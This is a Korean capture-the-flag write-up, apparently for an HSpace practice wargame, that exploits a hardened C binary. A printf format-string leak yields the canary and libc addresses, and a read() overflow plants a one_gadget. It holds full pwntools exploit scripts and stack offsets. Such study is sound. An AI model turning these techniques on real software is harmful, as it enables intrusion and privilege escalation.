




> 
> 

---

## 1. 대상 분석

### 1-1. 문제 코드 확인

**전체 코드**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
/*
    Full mitigation
    Stack is unsafe & fprintf is Substitutional way of print string
    But you have writable place
*/
int all_time;
int OTP_flag = 0;
int count;
int mode;
FILE *access_log;

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void gadget() {
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}
char print_checkpass() {
    puts("Enter your password");
    printf("Password : ");
    return 0;
}

char check_passwd(char *passwd, int mode) {
    print_checkpass();
    int acss_ok = -1;
    access_log = fopen("access.log", "a");

    read(0, passwd, 100);
    // passwd[strlen(passwd)] = '\x00';
    switch(mode) {
    case 0:
        fprintf(access_log, "Lord Of BOF : ");
        fprintf(access_log, passwd);
        break;
    case 2:
        // Doctor
        fprintf(access_log, "   Doctor   : ");
        fprintf(access_log, passwd);
        // printf(passwd);
        break;
    default:
        fprintf(access_log, "Undefined User, Error\n");
        // break;
        return 0;
    }

    if (!strncmp(passwd, "9a9f3a5a6230124a1770cc20097db3713454343a", 40)) {
        // lordofbof sha1
        acss_ok = 0;
        fprintf(access_log, " -> Correct!");
        // return 0;
    } else if(!strncmp(passwd, "1f0160076c9f42a157f0a8f0dcc68e02ff69045b", 40)) {
        // doctor sha1
        acss_ok = 2;
        fprintf(access_log, " -> Correct!");
        // return 1;
    } else {
        acss_ok = -1;
        fprintf(access_log, " -> Incorrect!");
        // return 3;
    }

    fprintf(access_log, "\n");
    fclose(access_log);
    return acss_ok;
}

char check_id(char *str_adr) {
    printf("Your ID : ");
    read(0, str_adr, 0x20);
    if (!strncmp(str_adr, "Lord Of Buffer overflow", 23)) {
        return 0;
    } else if(!strncmp(str_adr, "Zombie", 6)) {
        return 1;
    } else if(!strncmp(str_adr, "Doctor", 6)) {
        return 2;
    } else {
        return 3;
    }
}

int main(int argc, char const *argv[]) {
    initialize();
    // stack high
    char welcome[28] = "For vaccine, Enter One Time Passcode";
    char id_number[64];
    char password[0x40];
    count = 0;
    int chk_pw = -1;
    printf(welcome);
    puts("");
    printf("Enter ID Number");
    puts("");
    do {
        int chk = check_id(id_number);
        // only leak
        switch(chk) {
        case 0:
            // LOB
            printf("Lord Of BOF! ");
            chk_pw = check_passwd(password, 0);
            break;
        case 1:
            // Zombie
            printf("Zombie! ");
            puts("You Don't need Vaccine~");

            access_log = fopen("access.log", "a");
            fprintf(access_log, "Zombie : Denied");
            fclose(access_log);
            break;
        case 2:
            // Doctor
            printf("Doctor! ");
            puts("You can get Vaccine if you pwn");
            chk_pw = check_passwd(password, 2);
            break;
        case 3:
            printf(id_number);
            printf("!Invalid!\nTry Again\n");
            chk_pw = 0;

            access_log = fopen("access.log", "a");
            fprintf(access_log, "Invalid ID\n");
            fclose(access_log);
            break;
        default:
            puts(id_number);
            printf("Error! Enter Your ID Again!");
            chk_pw = 0;

            access_log = fopen("access.log", "a");
            fprintf(access_log, "ID Input Error\n");
            fclose(access_log);
            break;
        }

        if(chk_pw == -1) {
            puts(password);
        } else if(chk_pw == 0) {
            chk_pw = 0;
        } else {
            goto get_vaccine;
        }
        count++;
        if (count == 3) {
            puts("BOOM!! Find your ID");
            return 0;
        }
    } while (1);

get_vaccine:
    puts("No Vaccine");

    //     printf("adsf");
    return 0;
}
```

**취약점 코드**

**① 읽기(leak) — `printf(id_number)` (case 3)**

c

```c
case 3:    printf(id_number);   // ★ id_number = 내 입력, stdout으로 출력 → %p leak 보임!
```

check_id가 `read(0, str_adr, 0x20)`로 ID를 받는데, 아무 ID나(= 알려진 거 말고) 넣으면 case 3으로 빠져서 **내 입력을 `printf`로 stdout에 출력**해. → **여기에 `%p`를 넣어 leak.** (단 0x20=32바이트라 포맷 문자열 길이가 짧은 게 제약)

**② 쓰기(write) — `fprintf(access_log, passwd)` (case 0/2)**

c

```c
case 0:    fprintf(access_log, passwd);  // ★ passwd = 내 입력, %n으로 임의 쓰기
```

`read(0, passwd, 100)`로 100바이트까지 받으니 **긴 페이로드 가능.** 출력은 **파일(access.log)로 가지만, `%n`의 메모리 쓰기는 출력 스트림과 무관**하게 동작해. → **임의 주소 쓰기 프리미티브.**

> **왜 "출력이 파일로 가도" %n이 되나**
> 
> 
> `%p`/`%s`는 **출력(leak)**이라 어디로 출력되는지가 중요해(파일로 가면 안 보임). 근데 `%n`은 **메모리에 쓰는 것**이라 출력 대상이 파일이든 화면이든 상관없이 **포인터가 가리키는 주소에 값을 써.** 그래서 leak은 stdout으로 나오는 ①번으로, write는 파일로 나가는 ②번으로 역할 분담.
> 

### 1-2. 보호기법 확인



All Green 이다.

아래와 같이, 문제코드에서 힌트가 주어졌다.

```c
Full mitigation
Stack is unsafe & fprintf is Substitutional way of print string
But you have writable place

대충, 스택 불안정하고 fprintf가 출력 대체 수단이고, 쓰기 가능한 공간이 존재한다고 
알려주고 있다.
```

## 2. Exploit 아이디어

Full RELRO라 GOT를 못 덮으니, **쓰기 타겟은 "스택의 리턴 주소"**가 유력해:

```
[1] printf(id_number) FSB로 leak:
      - PIE 코드 베이스 (바이너리 주소 복원)
      - libc 베이스 (system, /bin/sh 계산)
      - 스택 주소 (리턴 주소 위치 계산용)
      - (필요시) 카나리
[2] fprintf(passwd) FSB의 %n으로:
      - 스택의 리턴 주소 자리에 ROP 체인(ret2libc) 써넣기
[3] 함수 리턴 시 → system("/bin/sh")
```

`count == 3`이라 **루프를 3번 돌 수 있어서**, leak하고 write할 여유(라운드)가 있어.

> “writable place”는 전역변수들(`all_time`, `OTP_flag`, `count`, `mode`, `access_log`)이 사는 **.bss**를 가리킬 수도 있어. 긴 `%n` 쓰기를 할 때 임시 작업 공간으로 쓰거나, fmtstr가 중간값 저장에 활용할 수 있는 여지야.
> 

```c
from pwn import *
import re
context.arch = 'amd64'

p = process('./final')
ONE_GADGET = 0xebc18        # 안 되면 교체

# ---- Round 1: leak (case 3) ----
p.sendafter(b'Your ID : ', b'%6$p.%31$p.%33$p\n')
data = p.recvuntil(b'!Invalid!')
argv_leak, canary, libc_leak = [int(h,16) for h in re.findall(rb'0x[0-9a-f]+', data)[:3]]
libc_base = libc_leak - 0x29d90
main_rbp  = argv_leak - 0x118
og        = libc_base + ONE_GADGET
FAKE_RBP  = main_rbp
log.info("canary=%#x libc=%#x main_rbp=%#x og=%#x", canary, libc_base, main_rbp, og)

# ---- Round 2: BOF (case 2 Doctor) → main 리턴 덮기 ----
p.sendafter(b'Your ID : ', b'Doctor\n')
bof = b'A'*0x48 + p64(canary) + p64(FAKE_RBP) + p64(og)
p.sendafter(b'Password : ', bof)

# ---- Round 3: count==3 유도 → main return → og ----
p.sendafter(b'Your ID : ', b'A\n')
p.interactive()
```



---


> FSB로 카나리·libc·PIE leak → read 오버플로우(BOF)로 main 리턴 덮기 → one_gadget으로 셸
> 

---

## 0. 두 개의 취약점을 먼저 이해하기

이 문제는 버그가 **두 군데**에 있고, 역할이 다르다. 이걸 먼저 잡고 가야 전체가 보인다.

### 버그 1: FSB (Format String Bug) — case 3의 `printf(id_number)`

```c
case 3:
    printf(id_number);   // id_number = 내 입력이 포맷 문자열로 그대로 들어감
```

이전의 문제에 존재한 `printf(buf)`처럼 **사용자 입력이 포맷 문자열 자리**에 들어간다. `%p`를 넣으면 스택 값을 꺼내 출력(**leak**)할 수 있다. 출력이 **stdout으로 나와서** leak 결과를 눈으로 볼 수 있다. → **leak 전용**으로 사용.

### 버그 2: BOF (Buffer Overflow) — check_passwd의 `read`

```c
char password[0x40];        // 64바이트 버퍼
read(0, passwd, 100);       // 100바이트를 읽음 -> 36바이트 오버플로우
```

버퍼는 64바이트인데 `read`가 100바이트를 읽는다. **36바이트가 넘쳐서** 스택의 카나리·saved rbp·리턴 주소까지 덮을 수 있다. → **쓰기(리턴 주소 덮기) 전용**으로 사용.

> 원래 이 문제엔 `fprintf(access_log, passwd)`라는 **또 다른 FSB**도 존재한다. 하지만 이건 출력이 **파일로** 가서 `%p` leak이 안 보이고, `%n` 쓰기는 glibc positional 로 실패했다(부록 참고). 그래서 leak은 1번(printf, stdout), write는 2번(read 오버플로우)으로 역할을 나눠 풀었다.
> 

---

## 1. 대상 분석

### 1-1. 코드 분석

```c
int loop = 0;               // (이 문제엔 사실상 영향 없음)
int count;                  // 전역 시도 횟수

void gadget() {             // pop rdi/rsi/rdx 가젯 (여기선 안 씀)
    asm("pop %rdi; ret"); ...
}

char check_passwd(char *passwd, int mode) {
    read(0, passwd, 100);                 // BOF (passwd는 main의 password[0x40])
    switch(mode){ case 2: fprintf(access_log, passwd); ... }  // (또 다른 FSB, 파일로 감)
    if(!strncmp(passwd, "...doctor hash...", 40)) acss_ok = 2;
    else acss_ok = -1;                    // 우리 payload는 해시 불일치 → -1
    fclose(access_log);
    return acss_ok;
}

char check_id(char *str_adr) {
    read(0, str_adr, 0x20);               // ID 입력 (32바이트)
    if(!strncmp(..., "Lord Of Buffer overflow",23)) return 0;
    else if(!strncmp(..., "Zombie",6)) return 1;
    else if(!strncmp(..., "Doctor",6)) return 2;
    else return 3;                        // 인식 안 되는 ID → case 3 (FSB leak)
}

int main() {
    char password[0x40];                  // BOF 대상 버퍼
    do {
        int chk = check_id(id_number);
        switch(chk){
            case 2: chk_pw = check_passwd(password, 2); break;  // Doctor → BOF
            case 3: printf(id_number); ... chk_pw = 0; break;   // 아무 ID → FSB leak
        }
        if(chk_pw == -1) puts(password);
        count++;
        if(count == 3){ puts("BOOM!! Find your ID"); return 0; }  // 3번째에 main 리턴
    } while(1);
}
```

1. **case 3 도달법** — "Lord Of Buffer overflow"/"Zombie"/"Doctor"가 아닌 **아무 ID**를 넣으면 `else → return 3` → `printf(id_number)` FSB.
2. **case 2(Doctor) 도달법** — ID에 "Doctor" → `check_passwd` → `read(100)` BOF.
3. **main 리턴 시점** — `count == 3`이면 `return 0`. 즉 **3라운드째에 main이 리턴**한다. (여기에 익스를 건다)

### 1-2. 보호기법 확인



```
Full RELRO  → GOT Overwrite 불가 (쓰기 타겟은 RET. 리턴 주소로)
Canary      → 카나리를 leak하면 우회 가능
NX          → 셸코드 주입 불가 → ret2libc / one_gadget
PIE         → 코드 주소도 랜덤 → 전부 leak해야 함
```

All Green. 하드코딩할 수 있는 게 아무것도 없어서, **필요한 주소를 전부 런타임에 leak**해야 한다.

---

## 2. Exploit 아이디어

### 2-1. 전체 그림 (3번 시도)

```
[1] case 3: printf(id_number) FSB로 leak
          -> 카나리, libc 베이스, 스택 주소(argv) 확보
[2] case 2(Doctor): read(100) BOF로
          -> main의 카나리 복원 + saved rbp 조작 + 리턴 주소를 one_gadget으로 덮기
[3] case 3: count==3 유도 -> main이 return -> one_gadget 실행 -> 셸 획득.
```

### 2-2. ret2libc / one_gadget

- **NX**라서 셸코드를 못 올린다 → 이미 메모리에 있는 libc 코드를 재사용(ret2libc).
- **Full RELRO**라 GOT를 못 덮는다 → 쓰기 타겟을 **스택의 리턴 주소**로.
- 리턴 주소를 **one_gadget**(libc 안의, 한 번 점프로 `execve("/bin/sh")` 해주는 주소)으로 덮으면, **주소 하나만** 쓰면 되어서 제일 간단하다.

> **one_gadget이란**
libc 안에는 `execve("/bin/sh", argv, envp)`를 바로 실행해주는 지점들이 있다. `one_gadget libc.so.6`로 후보를 뽑으면, 각 후보마다 **발동 조건(constraints)**이 붙어 있다. (예: `0xebc18`은 "`[rbp-0x78]`과 `[rbp-0x70]`이 NULL(또는 유효한 argv/envp)이어야" execve가 성공한다.) 조건이 안 맞으면 터진다(SIGSEGV).
> 

### 2-3. 카나리 우회

BOF로 리턴 주소를 덮으려면 중간의 **카나리**를 지나쳐야 하는데, 카나리가 바뀌면 함수 종료 시 탐지되어 죽는다. 하지만 **첫 번째 단계에서 카나리를 leak**해두고, BOF payload에 **원래 카나리 값을 그대로 다시 써넣어서** 탐지를 통과할 수 있다.

> **카나리는 스레드당 하나**
카나리는 `fs:0x28`에 저장된 프로세스(스레드) 공통 값이다. 그래서 main에서 leak한 카나리와 BOF로 덮을 main의 카나리가 **같은 값**이라, 첫 번쨰의의 leak을 그대로 두 번째에 쓸 수 있다.
> 

---

## 3. 필요한 정보 확인

### 3-1. FSB leak 오프셋 (printf 기준)

case 3에 `%p`를 쭉 넣어 스택을 확인하고, gdb로 각 위치가 뭔지 확인한다.

> **printf `%N$p` ↔ gdb stack 인덱스 공식**`printf(fmt, ...)`는 fmt=rdi, 첫 vararg=rsi. 레지스터(rsi~r9)가 %1~%5, 그 다음 스택이 %6부터. gdb `stack`의 인덱스 00은 rsp(리턴주소)라서 → **`%N$p` = stack 인덱스 (N−5)**.
> 

gdb 덤프에서 찾은 위치:

| 찾는 것 | 위치 | 복원 공식 |
| --- | --- | --- |
| 스택 주소(argv 포인터) | `%6$p` | `main_rbp = leak - 0x118` |
| 카나리 | `%31$p` | 그대로 사용 |
| libc | `%33$p` (=`__libc_start_call_main+128`) | `libc_base = leak - 0x29d90` |

### 3-2. BOF Offset

gdb에서 `password`가 `main_rbp - 0x50`에 있는 걸 확인했다. 카나리는 `main_rbp - 0x8`.

```
password[0] ── (0x48 바이트) ── 카나리(rbp-0x8) ── saved rbp(rbp) ── 리턴(rbp+8)
```

- padding(= password → 카나리) = `0x50 - 0x8` = **0x48**
- payload 구조: `'A'*0x48 + canary + FAKE_RBP + one_gadget`
- 길이: 0x48 + 8 + 8 + 8 = 0x60 = 96바이트 (read 100 안에 작성 가능하다.)

### 3-3. 쓰기 타겟 == main의 리턴 주소

BOF가 덮는 `passwd`는 **main의 `password` 버퍼**(포인터로 넘어옴)다. 그래서 오버플로우는 **main의 프레임**(카나리·saved rbp·리턴)을 덮는다. → main이 `count==3`에 리턴할 때 one_gadget이 발동.

### 3-4. one_gadget

```bash
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

→ 후보 중 `0xebc18` (`execve("/bin/sh", [rbp-0x78], [rbp-0x70])`). **rbp를 우리가 조작(FAKE_RBP)**할 수 있어서, `[rbp-0x78]`/`[rbp-0x70]`이 NULL인 상태를 맞춰 발동시킨다.

---

## 4. Exploit

```python
from pwn import *
import re
context.arch = 'amd64'

p = process('./final')
ONE_GADGET = 0xebc18

# 1: leak (case 3)
p.sendafter(b'Your ID : ', b'%6$p.%31$p.%33$p\n')   # 인식 안 되는 ID -> case 3
data = p.recvuntil(b'!Invalid!')
argv_leak, canary, libc_leak = [int(h,16) for h in re.findall(rb'0x[0-9a-f]+', data)[:3]]
libc_base = libc_leak - 0x29d90
main_rbp  = argv_leak - 0x118
og        = libc_base + ONE_GADGET
FAKE_RBP  = main_rbp
log.info("canary=%#x libc=%#x main_rbp=%#x og=%#x", canary, libc_base, main_rbp, og)

# Round 2: BOF (case 2 Doctor)
p.sendafter(b'Your ID : ', b'Doctor\n')
bof = b'A'*0x48 + p64(canary) + p64(FAKE_RBP) + p64(og)
p.sendafter(b'Password : ', bof)                    # read(100) > password[0x40] -> 오버플로우

# Round 3: count==3 유도 -> main return -> og 
p.sendafter(b'Your ID : ', b'A\n')
p.interactive()
```

> **참고로 BOF 때 `fprintf(passwd)` FSB가 안 터진다**
2번째 단계 payload가 `'A'*0x48 + p64(canary) + ...`인데, **리눅스 카나리의 첫 바이트는 항상 `\x00`**이다. `fprintf(passwd)`는 'A' 72개를 출력하다 그 널에서 **멈춘다.** 뒤의 주소 바이트(`%`나 널 포함)를 포맷으로 해석하지 않아서 FSB 사고가 안 난다. BOF는 `read` 단계에서 이미 100바이트를 다 읽어 완성된 상태다.
> 

---

## 5. 클리어



Round 3에서 `count==3` → `puts("BOOM!! Find your ID")` 후 main이 `return` → 덮어둔 리턴 주소(one_gadget)로 점프 → `execve("/bin/sh")` → 셸 획득. setuid 바이너리라 **다음 유저 권한**의 셸을 얻는다.

---

## 6. 부록

### 처음엔 `fprintf(passwd)` FSB의 `%n`으로 풀려고 했다 → 실패

원래 계획은 2**번 취약점을 FSB로** 보고, `fprintf(access_log, passwd)`의 `%n`으로 **check_passwd의 리턴 주소를 one_gadget으로 덮는** 것이었다.

```python
payload = fmtstr_payload(27, {write_target: og})   # %n으로 리턴 주소에 og 쓰기
```

leak offset(27), write_target 다 정확히 맞췄는데도 **계속 SIGSEGV가 발생해서,** 코어 덤프를 떠서 확인해보니

```
=> printf_positional+6925:  mov BYTE PTR [rax], dil   ← %n이 [rax]에 쓰다 터짐
   rax = 0x4613f5cb                                    ← 0x7fff4613f5cb 에서 상위 4바이트 잘림
```

→ `%n`이 써야 할 **타겟 주소(0x7fff...)가 32비트로 truncation**됐다. 이건 **glibc positional `%n`(`%27$hn`) + `fmtstr_payload`에서 생기는 알려진 버그**다. 중간 인자들의 타입을 glibc가 잘못 추정해 타겟 읽기가 어긋난 것.

> `fprintf`/`printf`의 positional `%n` 쓰기는 중간 인자 gap 때문에 주소가 잘릴 수 있다. 이럴 땐 `%n`을 고집하지 말고 다른 쓰기 수단(여기선 BOF)을 찾는 게 빠르다.
> 

### one_gadget 후보를 무작정 바꿨다

`%n` 버그를 모를 때는 "one_gadget 조건이 안 맞나?" 하고 `0xebbc8`, `0xebbc5`, `0xebc22`, `0xebc18`을 **계속 바꿔 끼웠다.** 전부 SIGSEGV. 사실 **원인은 one_gadget이 아니라 `%n` 쓰기 자체가 깨진 것**이었다. 코어 덤프의 `$pc`가 `printf_positional`을 가리킨 걸 보고서야 알았다.

> 크래시 원인을 추측으로 때려맞히지 말고, **코어 덤프의 `$pc`(터진 명령 위치)를 먼저 봐야** 한다. "one_gadget 안에서 터졌나 / 쓰기 과정에서 터졌나"가 바로 갈린다.
> 

### `0xebc18`은 "실행 시점"의 스택 상태에 의존한다

gdb(카피본, "AAAA" 입력)로 보면 `[rbp-0x78]=0`이라 `0xebc18`이 될 것 같았지만, **실제 실행에선 그 자리가 쓰레기값**이라 argv 역참조에서 터질 수 있었다. gdb(ASLR 꺼짐, 환경 다름) 상태 ≠ 실제 실행 상태였던 것.

> one_gadget의 rbp-상대 조건은 **실행 시점의 스택 내용**에 민감하다. **rbp를 직접 조작할 수 있는 BOF**가 FSB보다 이 문제에선 훨씬 안정적이다 (FAKE_RBP로 조건 맞는 위치를 가리킬 수 있으니까).
> 

### setuid 바이너리는 코어를 안 남긴다

실제 `./final`(setuid)로는 코어 덤프가 안 나왔다. **카피본(`/tmp/final_dbg`, setuid 없음)**으로 돌려야 코어가 생긴다. 오프셋·레지스터는 코드·libc가 같으니 카피본으로 측정해도 그대로 유효하다. (`ulimit -c unlimited` + pwntools `p.corefile`로 수집)

---

## 7. 마치며

보안 공부 중, 그나마 제일 많이 학습한 분야가 pwnable이다. 하지만, 드림핵같은 워게임을 학습할 때마다 벽에 가로막혔고 그 벽들은 대부분 PIE, ASLR, libc version 문제 등이였다. (물론, 내가 아직 실력이 부족한 것도 한 몫 한다.)
하지만 이번 워게임 같은 경우, 마지막(final)을 제외하고는 no pie 위주이기도 했고 libc version 불일치로 크게 문제가 생기는 일도 없어서 내가 알고 있는 pwnable 개념들을 실습하며 잊혀진 기억들을 다시 복구하는 데에 정말 효과적이였다.

Ch1부터 Ch10까지 풀며 전부 나 혼자만의 힘으로 풀었다고는 할 수 없다. (AI사용30%, 구글링 서치 10%, 내 힘 60%) 
하지만, 이전에 포너블을 학습하고 워게임을 풀었을 때와는 다르게 지금은 머릿속에 포너블 공격 기법이나, 보호기법들의 우회 방법등이 깔끔하게 정리된 기분이다. 복습의 효과인지, 워게임 덕분인지는 모르겠으나 성장할 수 있어서 만족한다.

끝으로, 이 워게임이 HSpace에서 제작된 걸로 보인다. 이런 **(경쟁이 아닌) 학습 목적의 워게임**을 만들어 제공해주신 HSpace 분들께 감사드린다.
